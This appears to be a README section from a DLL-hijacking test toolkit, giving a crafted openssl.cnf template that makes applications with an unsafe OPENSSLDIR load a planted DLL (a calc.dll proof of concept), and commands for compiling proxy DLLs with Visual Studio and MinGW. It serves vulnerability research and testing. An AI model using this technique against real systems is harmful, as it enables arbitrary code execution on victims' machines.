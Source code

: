 ## openssl.cnf Template

For applications that unsafely use the `OPENSSLDIR` variable value, a crafted `openssl.cnf` file can be placed in the noted location. For this example, the software will load `C:\tmp\calc.dll`. Be sure to use a 32-bit library to target 32-bit processes, and a 64-bit library to target 64-bit processes.

```openssl_conf = openssl_init
[openssl_init]
# This will attempt to load the file c:\tmp\calc.dll as part of OpenSSL initialization
# Build scripts should detect whether the calc.dll library needs to be built as 32-bit or 64-bit
/tmp/calc = asdf
```

# Compiling Proxy DLLs

## Visual Studio

Compilation is possible using the `cl.exe` binary included with Visual Studio. Specifically:
```
cl.exe /DADD_EXPORTS /D_USRDLL /D_WINDLL <target>.cpp /LD /Fe<target>.dll /link /DEF:<target>.def
```

To automate the build process, including specifying whether the library should be 64-bit or 32-bit:
1. Open the Visual Studio Developer Command Prompt.
2. Build the DLLs with the `build.bat` script.
3. Rename the compiled file as necessary if the vulnerable file name ends with something other than `.dll`.

**Note:** Due to an unfortunate behavior with `vcvarsall.bat`, which is [definitely not a bug](https://developercommunity.visualstudio.com/t/vcvarsallbat-reports-the-input-line-is-too-long-if/257260#T-N258712), you may encounter trouble attempting to run `build.bat` more than once in the same Visual Studio Developer Command Prompt session. If you encounter an error, simply close the window and launch it again.

## MinGW

If Visual Studio isn't readily available, proxy DLLs can be compiled with [MinGW-w64](https://www.mingw-w64.org/) instead. On an Ubuntu platform for example, MinGW can be installed via the following: `sudo apt install g++-mingw-w64-x86-64-win32 g++-mingw-w64-i686-win32`
```
# Create a 32-bit DLL
i686-w64-mingw32-g++ -c -o <target>.o <target>.cpp -D ADD_EXPORTS
i686-w64-mingw32-g++ -o <target>.dll <target>.o <target>.def -s -shared -Wl,--subsystem,windows

# Create a 64-bit DLL
x86_64-w64-mingw32-g++ -c -o <target>.o <target>.cpp -D ADD_EXPORTS
x86_64-w64-mingw32-g++ -o <target>.dll <target>.o <target>.def -s -shared -Wl,--subsystem,windows
```

To automate the build process, including specifying whether the library should be 64-bit or 32-bit:
1. Open a terminal.
2. Run `bash ./build.sh`
3. Rename the compiled file as necessary if the vulnerable file name ends with something other than `.dll`.
